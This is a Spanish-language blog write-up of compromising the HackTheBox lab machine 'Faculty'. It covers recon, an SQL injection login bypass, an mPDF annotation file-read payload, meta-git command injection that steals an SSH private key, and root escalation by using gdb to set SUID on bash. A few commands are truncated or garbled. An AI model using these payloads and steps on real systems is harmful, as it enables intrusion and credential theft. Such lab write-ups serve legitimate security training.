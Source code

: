 ```yaml
---
layout: post
title: "Write Up Faculty. "
subtitle: "Starting-Point"
category: Blog
tags: [Medium,Chunin,Linux,HTB,SQLi,BurpSuite,LFI,RCE,SSH,Web,Vulnerability-Assessment,Injection,Custom-Applications,Outdated-Software,Authentication,NGINX,GDB,PHP,Reconnaissance,Web-Site-Structure-Discovery,Binary-Exploitation,Password-Reuse,SUDO,Capabilities,Authentication-Bypass,Clear-Text-Credentials,Code-Injection,AD-DCSync,eWPT,eWPTxv2,OSWE,OSCP] 
image:
  path: /assets/img/faculty/Captura%20de%20pantalla%20(186).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.11.169 -oA allports -Pn
```


![list](/assets/img/faculty/Kali-2022-09-06-23-39-14.png){:.lead width="800" height="100" loading="lazy"}

***

### Services and Versions


```bash
nmap -p22,8080 -sV -sC 10.10.11.169 -oN target
```

![list](/assets/img/faculty/Kali-2022-09-06-23-39-23.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros e ispeccionamos la web y  las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


Whatweb identificar tecnologuias atraves del terminal o wappalizer atraves de la web.


![list](/assets/img/faculty/Kali-2022-09-06-23-40-34.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Encontrandonos con un dominio llamadao `faculty.htb` esto lo agregamos al `/etc/hosts`


Fuzzeamos la web con gobuster.


```bash
gobuster dir -u faculty.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
```


![list](/assets/img/faculty/Kali-2022-09-06-23-44-53.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Lo utilizamos para fuzzear virtualhosting. 


Inspecionamos la web y tiene dos panles de login pero el vamos a explotar es el de admin ya que es vulnerable a SQLinjection.


![list](/assets/img/faculty/Kali-2022-09-06-23-45-58.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Lo podemos burlar con una inyección simple: ' or 1=1#.


Obtenemos acceso al panel de administración, que tiene muchas funcionalidades nuevas que deben verificarse en busca de vulnerabilidades.


![list](/assets/img/faculty/Kali-2022-09-06-23-46-03.png){:.lead width="800" height="100" loading="lazy"}


Enumeramos en el panel de administración, encontré que hay un lugar para descargar pdf.


![list](/assets/img/faculty/Kali-2022-09-06-23-53-04.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Explore cada funcionalidad, mientras analiza las solicitudes y respuestas con Burp Suite. 


Si interceptamos la petición al darle al botón, nos crea un pdf temporal con [mpdf] el cual vamos a buscar vulnerabilidades con searchsploit .


[mpdf]:https://github.com/mpdf/mpdf/issues/356


![list](/assets/img/faculty/Kali-2022-10-24-21-32-31.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Se puede examinar la solicitud de descarga del pdf y parece ser un proceso de codificación en url dos veces y una en base64. 


![list](/assets/img/faculty/Kali-2022-10-24-22-45-19.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Al urldecodearlo 2 veces y decodearlo en base64 una vez obtenemos mejor formato.


Sabiendo eso intercectamos el one-lner del pdf y lo reeplamos por la petición en burpsuite para eso creamos un payload en [CyberChef] para encodearlo como se tramita la petición original.


[CyberChef]: https://gchq.github.io/CyberChef/#recipe=URL_Encode(false)URL_Encode(false)To_Base64('A-Za-z0-9%2B/%3D')&input=PGFubm90YXRpb24gZmlsZT0iL2V0Yy9wYXNzd2QiIGNvbnRlbnQ9Ii9ldGMvcGFzc3dkIiBpY29uPSJHcmFwaCIgdGl0bGU9IkF0dGFjaGVkIEZpbGU6IC9ldGMvcGFzc3dkIiBwb3MteD0iMTk1IiAvPg


Damos a forward y mirando los Attachments del pdf encontramos el passwd que indicamos, lo descargarmos y podemos leerlo un par de usuarios.


![list](/assets/img/faculty/Kali-2022-09-07-00-39-33.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
En la parte izquierda dar click yse podra ver el contedio  y en este punto podemos ver los usuarios `gbyolo` y `developer`.


Esta página envía una solicitud a `http://faculty.htb/admin/ajax.php?action=get_schecdule` esa url nos mostrará alguna información del sistema de archivos local `/var/www/scheduling/admin/admin_class.php`, con la cual podemos hacer lo mismo de antes.


Esto nos ayudará a localizar dónde se almacenan los archivos del sitio web y finalmente nos llevará al archivo db_connect.php y le daremos un vistazo ese `db_connect.php` con otro payload para ver su contenido.


```bash
curl http://faculty.htb/admin/download.php -H
```


Hay una credencial encontrada en el archivo `Co.met06aci.dly53ro.per`, probamos a conectarnos por ssh, y obtenemos una shell


```bash
ssh gbyolo@10.10.11.169
```


![list](/assets/img/faculty/Kali-2022-09-07-01-04-35.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
A qui no esta la flag debemos pivotar hasta developer.


***

## Explotation


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find con el siguite comando.


Si miramos privilegios de sudoers podemos ejecutar meta-git como el usuario developer.


![list](/assets/img/faculty/Kali-2022-10-24-22-52-21.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
BUscando un poco encontramos una [vulnerabilidad] que te permite ejecutar comandos, podemos probarla pero solo funciona en un directorio que tenga acceso asi que desde la /.


[vulnerabilidad]: https://hackerone.com/reports/728040


Basicamente dice que el comando de clonación no se desinfectó correctamente, por lo que podemos usarlo para la ejecución del código. Esto debe ejecutarse desde el directorio `/home` y podriamos tratar de encontrar el `id_rsa` del desarrollador. 


```bash
sudo -u developer meta-git clone 'poc | whoami'
```


{:.note}
Solo para probar.


Ahora podemos leer la `id_rsa` para conectarnos por SSH.


```bash
sudo -u developer meta-git clone 'poc | cat ~/.ssh/id_rsa'
```

{:.note}
Copiamos el contenido a un archivo `id_rsa` en la maquina atacate y le damos permisos 600 y nos conectamos via SSH.


inicie sesión para obtener la bandera de usuario.


```bash
ssh developer@10.10.11.169 -i id_rsa
```


{:.note}
Ya podemos buscar la flag de usurio de bajos  privilegios en el escritorio de `developer`.


![list](/assets/img/faculty/Kali-2022-10-24-23-14-06.png){:.lead width="800" height="100" loading="lazy"}


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find con el siguite comando.


```bash
find / -group debug 2>/dev/null 
```


{:.note}
En contramos una ruta `/usr//bin/gdb`.


Gdb es inusual, existe un posible [exploit] en hacktricks, podemos ver que nuestro grupo puede ejecutarlo, además tiene una capabilitie.


[exploit]: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities


![list](/assets/img/faculty/Kali-2022-10-24-23-16-38.png){:.lead width="800" height="100" loading="lazy"}


Podemos utilizar un proceso que este ejecutando root para con gdb asignar SUID a la bash.


```bash
ps faux | grep ^root | grep python3
```


{:.note}
Localizamos proceso.


```bash
gdb -p 29
```


{:.note}
atacamos el proseso en mi caso 29 es syo es otro.


```gdb
call (void)system("chmod u+s /bin/bash")
```
{:.note}
En el contexto (gdb).


```bash
quit
```


{:.note}
En el contexto (gdb) y hacemos `bash -p`.


Ya lo ultimo es buscar la flag de superusuario en el escritorio de root.

***

```shell
🎉 Felicitaciones ya has comprometido Faculty de HackTheBox 🎉
```
{:.centered}
***

Back to [Certification eWPT](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eWPTXv2](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSWE](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}

